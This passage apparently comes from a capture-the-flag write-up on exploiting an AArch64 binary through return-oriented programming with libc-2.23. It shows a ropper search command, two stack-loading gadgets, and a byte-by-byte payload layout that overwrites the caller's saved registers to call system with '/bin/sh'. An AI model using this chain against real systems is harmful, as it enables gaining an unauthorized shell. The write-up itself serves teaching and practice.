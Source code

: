 > Found with:
>
>```bash
># ropper --nocolor --file libc-2.23.so | grep ': ldr x0, \[x29, #0x.[0-9a-f]*\]; ldp x29, x30, \[sp\], #0x[0-9a-f]*; ret; $'
>```

The above gadgets will load `x0` from `x29` offset by `#0x10`, `#0x18`, etc..., then load your `x29`, `x30` from the stack before jumping to `x30`.  The stack pointer will also move just before the `ret`, so expect your ROP chain to not look so linear.

_But if the preserved `x29`, `x30` are NOT down stack, how do I over write them?_

You don't, you're attacking the calling function's `x29`, `x30`.  IOW, `main` calls `vulnerable` and `vulnerable` returns to `main` exactly as intended, it is the function calling `main` preserved `x29`, `x30` we can overwrite.


#### Finding Gadgets

From the leak and the provided libc we have the addresses of `system` and the string `/bin/sh\0`.  All we need to do is put the address of `/bin/sh\0` in `x0` and call `system`.

Well easier said than done.  There's no usable `ldr x0, [sp]` gadget and setting `x29` without a stack address leak was also a challenge, so I settled on these two (there's actually a gadget in `arm` that will move `sp` to `x29`, but I had all of libc, surely that is better, right? :-):

The first will load `x19`, `x20` from the stack offset by `0x10`:

```assembly
ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
```

The second will move `x19` to `x0`:

```assembly
mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
```

Finding them require crafting some `grep` strings to look for `ldr` and `ldp` loading from the stack, and a matching `mov` to get into `x0`.

It was not terribly difficult or time consuming, most of my time was spent getting my tooling setup and learning how Aarch64 works.


#### Exploit Walkthrough

> This is going to be painfully long.  Instead of walking through how I developed this (too long), I'll just walkthrough the exploit, step-by-step.

Payload:

```
128 bytes of garbage to get to end of stack
BBBBBBBB as main x29
8 byte first gadget address (main x30)
(32-16) bytes of C, required for the main ldp x29, x30, [sp], #32
CCCCCCCC as first gadget x29
8 byte second gadget address (x30)
8 byte pointer to /bin/sh (sp is 16 bytes above us pointing to our x29 CCCCCCCC)
(0x20-16-8, the 16 is for x29/x30, and the 8 for /bin/sh) bytes of garbage required for the ldp x29, x30, [sp], #0x20
DDDDDDDD as the second gadget x29
8 bytes for address of system call (x30)
```
